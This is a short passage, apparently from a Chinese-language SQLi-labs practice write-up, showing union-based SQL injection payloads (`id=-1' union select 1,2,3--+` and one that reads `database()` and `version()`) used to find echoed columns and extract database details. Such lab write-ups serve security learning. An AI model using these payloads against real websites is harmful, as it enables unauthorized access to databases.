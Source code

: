 
id=-1' union select 1,2,3--+


![](../post_pre/pics/SQLi-labs/3.png)
  

三张图片对比，找到回显点是 `name` 和 `password`这两个地方

  

<hr>

  

### 2

  

`id = -1' union select 1, database(), version() --+`

  

用那个测试表

  


![](../post_pre/pics/SQLi-labs/database1.png)
  